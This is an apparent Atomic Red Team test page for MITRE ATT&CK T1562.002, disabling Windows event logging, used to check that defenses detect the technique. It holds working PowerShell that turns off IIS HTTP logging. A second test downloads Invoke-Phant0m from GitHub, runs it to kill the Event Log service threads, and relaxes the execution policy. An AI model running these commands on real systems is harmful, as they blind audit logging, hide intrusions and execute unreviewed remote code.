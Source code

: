 # T1562.002 - Disable Windows Event Logging
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1562.002)
<blockquote>Adversaries may disable Windows event logging to limit data that can be leveraged for detections and audits. Windows event logs record user and system activity such as login attempts, process creation, and much more.(Citation: Windows Log Events) This data is used by security tools and analysts to generate detections.

Adversaries may targeting system-wide logging or just that of a particular application. By disabling Windows event logging, adversaries can operate while leaving less evidence of a compromise behind.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Disable Windows IIS HTTP Logging](#atomic-test-1---disable-windows-iis-http-logging)

- [Atomic Test #2 - Kill Event Log Service Threads](#atomic-test-2---kill-event-log-service-threads)


<br/>

## Atomic Test #1 - Disable Windows IIS HTTP Logging
Disables HTTP logging on a Windows IIS web server as seen by Threat Group 3390 (Bronze Union).
This action requires HTTP logging configurations in IIS to be unlocked.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| website_name | The name of the website on a server | string | Default Web Site|


#### Attack Commands: Run with `powershell`! 


```powershell
C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:true
```

#### Cleanup Commands:
```powershell
if(Test-Path "C:\Windows\System32\inetsrv\appcmd.exe"){
  C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:false *>$null
}
```





<br/>
<br/>

## Atomic Test #2 - Kill Event Log Service Threads
Kill Windows Event Log Service Threads using Invoke-Phant0m. WARNING you will need to restart PC to return to normal state with Log Service. https://artofpwn.com/phant0m-killing-windows-event-log.html

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned -ErrorAction Ignore
$url = "https://raw.githubusercontent.com/hlldz/Invoke-Phant0m/f1396c411a867e1b471ef80c5c534466103440e0/Invoke-Phant0m.ps1"
$output = "$env:TEMP\Invoke-Phant0m.ps1"
$wc = New-Object System.Net.WebClient
$wc.DownloadFile($url, $output)
cd $env:TEMP
Import-Module .\Invoke-Phant0m.ps1
Invoke-Phant0m
```

#### Cleanup Commands:
```powershell
Write-Host "NEED TO Restart-Computer TO ENSURE LOGGING RETURNS" -fore red
```





<br/>
